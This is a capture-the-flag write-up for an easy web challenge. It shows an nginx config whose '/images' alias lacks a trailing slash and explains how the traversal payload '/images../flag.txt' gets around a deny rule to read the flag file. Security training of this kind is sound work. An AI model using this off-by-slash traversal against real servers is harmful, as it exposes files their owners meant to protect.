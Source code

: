 # gong_xi_fa_cai
23 SOLVES 944 points

# DESCRIPTION
Author: Gladiator

Difficulty: Easy

We provided the configuration file for a webserver below. Can you access flag.txt?

Challenge Access:
http://challenges2.whitehacks.xyz:5888
# solution

When we first enter the website, we don't find much, and neither do we in the developer tools. However, we are given the configuration file for the website.

```
    server {
      listen 80 default_server;
      listen [::]:80 default_server;
      root /var/www/html;
      index index.html index.htm index.nginx-debian.html;
      server_name _;
      location / {
        # First attempt to serve request as file, then
        # as directory, then fall back to displaying a 404.
        try_files $uri $uri/ =404;
      }
      location = /flag.txt {
        deny all;
        return 403;
      }
      location /images {
        alias /var/www/html/images/;
      }
    }
```
What we see here is that there is a misconfiguration under

    location /images

With a missing <code>/</code> after <code>images</code>, the website is vulnerable to a directory traversal attack. This is an nginx off-by-slash misconfiguration, and when combined with an <code>alias</code> or <code>proxy_pass</code> directive, it allows us to traverse up the path by one step. 

With our payload:

    /images../flag.txt
    
We get our flag!

> WH2022{<3_dont_w4it_0r_say_a_single_vow_you_need_to_hear_me_out_and_they_speak_noooww_<3}
